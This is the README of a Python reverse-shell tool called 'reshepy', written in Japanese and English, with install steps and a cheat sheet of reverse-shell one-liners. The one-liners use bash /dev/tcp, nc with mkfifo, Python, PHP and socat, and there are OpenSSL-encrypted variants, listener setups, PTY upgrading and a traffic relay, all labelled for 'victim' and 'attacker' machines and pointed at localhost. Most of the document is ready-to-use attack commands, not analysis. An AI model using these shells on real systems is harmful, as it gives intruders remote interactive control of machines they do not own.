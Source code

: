 # reverse shell written in python

このコマンドの存在意義はvictimマシン上で，secure/nosecureなどをオプションで区別して起動できる点(pythonのone linerを上回る明示的なメリットはない)

## What is reverse shell?
* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## reverse shell use case
* 任意のコマンドを実行できるサーバであるが，インタラクティブな操作ができない場合
  * jenkinsのslave(victim) <-> my machine(attacker)

## how to install
``` bash
# victim machine
# for avoiding 'pip Installing collected packages: UNKNOWN'
pip3 install setuptools --upgrade
pip3 install https://github.com/umaumax/reshepy/archive/master.tar.gz
```

``` bash
# atacker machine
# mac
brew install socat
# ubuntu
sudo apt-get install -y socat
```

----

<!-- ## darwin -->
<!-- * [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra ) -->
<!-- ### attacker machine -->
<!-- ### victim machine -->

## TL;DR
* attacker machine
  * 基本的に自由な環境
    * 最低限`socat`がないと実作業には適さない
    * `openssl`はsecureな通信を実現したいならば欲しい
* victim machine
  * `openssl`さえあればsecureな通信が可能
  * `socat`があるに越したことはないが，`pty`(e.g. `python -c 'import pty; pty.spawn("/bin/sh")'`)での代用や直接バイナリをダウンロードする方法があるので，`socat`コマンドは必須ではない
    * e.g. [static\-binaries/socat at master · andrew\-d/static\-binaries]( https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat )

## reshepy DONE
* 通信のみはsecureで制御信号も受け付ける

## reshepy TODO
* attackerがclient証明書を利用するケース
* victimがserver証明書を利用するケース(only victim reshepy ok)
* ファイルを共有せずにone linerで上記の項目を実現し，完全にsecureとしたい

----

## ubuntu
### attacker machine
``` bash
nc -nvlp 8080
```

### victim machine
``` bash
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common (mac, ubuntu)
### attacker machine
``` bash
nc -nvl 8080
```

``` bash
# socat tcp-listen:8080,reuseaddr,fork stdout
# below command can handle signal and tab
socat $(tty),raw,echo=0 tcp-listen:8080,reuseaddr
```

### victim machine
``` bash
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

これはptyを利用していないのでsocatと組み合わせても効果を発揮しない悪い例
``` bash
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

socatもopensslもない状況のvictimでもpythonさえあればOK
``` bash
python -c 'import sys;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' localhost 8080
```

``` bash
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

``` bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080
```

``` bash
reshepy localhost:8080
```
ptyを内部で利用しているのでsocat対応済み

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
``` bash
# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes -subj "/C=US/ST=/L=/O=/OU=/CN=www.localhost.com/emailAddress=/"

openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```

`socat` secure version
``` bash
# verify=0: no client certificate check
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
pythonとopensslが使える場合
``` bash
rm -f .fifo; mkfifo .fifo;python -c 'import pty; pty.spawn("/bin/bash")' < .fifo 2>&1 | openssl s_client -quiet -connect localhost:8080 > .fifo;rm -f .fifo
```
pythonのspawn a TTY shell from an interpreterを利用することでsocat(fully tty reverse shell)なしでも制御コマンド対応となる

socatとopensslが使える場合
`socat` secure version
``` bash
socat openssl-connect:localhost:8080,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
より安全に通信したい場合には`verify=1`とする?

* client側が適切なサーバかどうかを判定する処理
  * (ctrl-cやtab ok)

``` bash
reshepy -c cert.pem --host=www.localhost.com localhost:8080
```
* 上記のコマンドのcert.pemに該当する部分をbase64でencodeしてテキストベースで貼り付ければ余計なファイルは不要な状態となる
  * また，基本的に，victimが変なサーバに接続することを防止できれば，attackerが変なクライアントを受け入れてもそれほど問題はない
    * (attacker側はコマンドの送信と表示のみであることと，ユースケースとしてネットワーク的に外からのアクセスは受け付けない場所にあると仮定されるため)

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
``` bash
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`
